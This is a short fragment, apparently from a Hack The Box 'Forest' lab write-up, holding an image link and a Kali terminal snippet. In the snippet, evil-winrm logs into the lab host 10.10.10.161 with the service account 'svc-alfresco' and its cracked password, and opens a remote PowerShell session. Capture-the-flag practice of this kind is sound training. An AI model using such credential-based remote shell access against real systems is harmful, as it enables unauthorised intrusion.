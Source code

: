 ![](Maszyny/Windows/Active%20Directory/Forest%20-%20nieskończone/Pasted%20image%2020210803003403.png)

-(kali kali-os)-[/htb/forest]
evil-winrm -u 'svc-alfresco' -p 's3rvice' -i 10.10.10.161
Evil-WinRM shell v2.4
Info: Establishing connection to remote endpoint
* Evil-WinRM* PS C:\Users\svc-alfresco\Documents>
